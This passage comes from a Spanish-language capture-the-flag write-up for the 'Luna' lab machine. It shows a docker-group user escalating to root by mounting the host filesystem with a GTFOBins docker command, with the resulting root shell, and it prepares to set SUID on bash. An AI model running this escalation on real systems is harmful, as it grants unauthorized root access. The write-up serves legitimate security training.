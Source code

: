 Pero si revisamos a qué grupos pertenece, descubrimos que está dentro del grupo **Docker**:
```bash
jose@TheHackersLabs-Luna:~$ id
uid=1002(jose) gid=1002(jose) groups=1002(jose),111(docker)
```
Esto quiere decir que este usuario puede crear contenedores.

Si buscamos en la **guía de GTFOBins**, encontraremos una forma de escalar privilegios:
* <a href="https://gtfobins.github.io/gtfobins/docker/" target="_blank">GTFOBins: Docker</a>

Usaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-luna/Captura11.png">
</p>

**Nota**: Necesitaremos internet en la máquina víctima o debemos descargar y pasarle la imagen **alpine** para que funcione la escalada.

Ejecutémoslo:
```bash
jose@TheHackersLabs-Luna:~$ docker run -v /:/mnt --rm -it alpine chroot /mnt bash
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
9824c27679d3: Pull complete 
Digest: sha256:4bcff63911fcb4448bd4fdacec207030997caf25e9bea4045fa6c8c44de311d1
Status: Downloaded newer image for alpine:latest
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@90eab57e35bb:/# whoami
root
```
Excelente, creamos una montura completa de la raíz (`-v /:/mnt`).

Esto nos permite realizar cambios en el contenedor que se verán reflejados en la máquina principal.

Entonces, podemos darle **permisos SUID** a la **Bash**.

Sal un momento del contendor y revisa los permisos de la **Bash**:
```bash
jose@TheHackersLabs-Luna:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1446024 mar 31  2024 /bin/bash
```
